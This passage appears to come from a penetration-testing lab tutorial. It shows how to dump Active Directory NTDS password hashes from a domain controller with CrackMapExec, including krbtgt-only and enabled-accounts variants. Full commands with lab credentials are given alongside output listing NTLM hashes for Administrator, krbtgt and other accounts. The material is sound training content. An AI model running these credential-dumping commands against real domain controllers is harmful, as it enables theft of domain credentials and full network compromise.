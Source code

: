 ```shell-session
SMB         172.16.1.10     445    DC01             MS01$:2107:aad3b435b51404eeaad3b435b51404ee:bcbea16a525492f90a27c14217da99c0:::
SMB         172.16.1.10     445    DC01             LINUX01$:2609:aad3b435b51404eeaad3b435b51404ee:0dcd992b30914be730714233322dc502:::
SMB         172.16.1.10     445    DC01             [+] Dumped 23 NTDS hashes to /home/plaintext/.cme/logs/DC01_172.16.1.10_2022-12-08_190342.ntds of which 20 were added to the database
SMB         172.16.1.10     445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         172.16.1.10     445    DC01             [*] cat /home/plaintext/.cme/logs/DC01_172.16.1.10_2022-12-08_190342.ntds | grep -iv disabled | cut -d ':' -f1
```

When using the `--ntds` option, we can include the `--user` and `--enabled` options. We can specify the user we want to extract if we use `--user`. Let's dump the hash for the `KRBTGT` account.

### **Dumping only the KRBTGT Account**

```shell-session
$ proxychains4 -q crackmapexec smb 172.16.1.10 -u julio -p Password1 --ntds --user krbtgt

SMB         172.16.1.10     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         172.16.1.10     445    DC01             [+] inlanefreight.htb\julio:Password1 (Pwn3d!)
SMB         172.16.1.10     445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.1.10     445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:742c416996dcf352efd5ac94200f238e:::
SMB         172.16.1.10     445    DC01             [+] Dumped 1 NTDS hashes to /home/plaintext/.cme/logs/DC01_172.16.1.10_2022-12-08_190444.ntds of which 1 were added to the database
SMB         172.16.1.10     445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         172.16.1.10     445    DC01             [*] cat /home/plaintext/.cme/logs/DC01_172.16.1.10_2022-12-08_190444.ntds | grep -iv disabled | cut -d ':' -f1
```

If we specify `--enabled`, it will only show the users that are enabled on-screen and will present us with the option to extract the list of enabled users.

### **Showing Enabled Accounts Only**

```shell-session
$ proxychains4 -q crackmapexec smb 172.16.1.10 -u robert -p 'Inlanefreight01!' --ntds --enabled

SMB         172.16.1.10     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         172.16.1.10     445    DC01             [+] inlanefreight.htb\robert:Inlanefreight01! 
SMB         172.16.1.10     445    DC01             [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
SMB         172.16.1.10     445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.16.1.10     445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:ce590e9af90b47a6a2fdf361aa35efaf:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\julio:1106:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
SMB         172.16.1.10     445    DC01             david:1107:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
SMB         172.16.1.10     445    DC01             john:1108:aad3b435b51404eeaad3b435b51404ee:c4b0e1b10c7ce2c4723b4e2407ef81a2:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\svc_workstations:1109:aad3b435b51404eeaad3b435b51404ee:7247e8d4387e76996ff3f18a34316fdd:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\carlos:2606:aad3b435b51404eeaad3b435b51404ee:a738f92b3c08b424ec2d99589a9cce60:::
SMB         172.16.1.10     445    DC01             inlanefreight.htb\robert:2607:aad3b435b51404eeaad3b435b51404ee:a5c7f8ecc821b547d09cf28b5864e54b:::
```